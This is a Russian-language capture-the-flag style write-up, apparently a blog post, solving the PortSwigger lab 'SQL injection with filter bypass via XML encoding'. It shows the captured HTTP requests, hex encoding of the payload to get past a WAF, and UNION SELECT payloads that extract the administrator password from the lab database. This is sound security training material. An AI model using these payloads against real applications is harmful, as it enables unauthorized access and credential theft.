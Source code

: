 ```yaml
---
title: "SQL injection with filter bypass via XML encoding"
date: 2025-06-20
tags: [sqli, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-in-different-contexts/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding"
---
```


В лабе есть уязвимая к **SQL injection** проверка товара в магазине. В БД есть таблица `users`, которая содержит в себе списки зарегистрированных пользователей с их паролями. Для прохождения нужно получить доступ к личному кабинету администратора.

```
https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/
```

## Solution

Первым делом нужно найти уязвимый запрос. На странице товара есть кнопка `check stock`, при нажатии она отправляет запрос на сервер. Сам запрос выглядит так:

```http
POST /product/stock HTTP/2
Host: 0a870041040afc00b575af4f00f900e1.web-security-academy.net
Cookie: session=K3VtfuVea5xBSJ82exXvOubl0Ohs9Gb0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a870041040afc00b575af4f00f900e1.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Можно заметить, что тело запроса содержит `XML` документ. В нем есть 2 значения: `productId` и `storeId`. Попробую подставить пейлоад в эти параметры:

```xml
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1';</storeId></stockCheck>
```

Мне пришел ответ с сообщением `Attack detected`:

```http
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 17

"Attack detected"
```

Скорее всего на сайте используется `WAF`. Для обхода попробую кодировать пейлод в `HEX` формат. Для этого `Burp Suite Academy` предлагает установить расширение [hackvertor](https://github.com/hackvertor/hackvertor/releases/tag/v1.8.10).

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/1.png){: height="200" .align-center}

Итак, попробую подобрать пейлоад для поля `storeId`:

```
1+1 - Ok
1+2 - Ok
1 UNION SELECT '1234'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

1234
953 units
```

Попробую получить пароль для пользователя `administrator` с помощью следующего пейлоада:

```
1 UNION SELECT password FROM users WHERE username = 'administrator'-- -
```

```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

06g5dq8793lynap20w97
953 units
```

Проверю пароль:

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-with-filter-bypass-via-XML-encoding/2.png){: height="200" .align-center}

Я в системе)
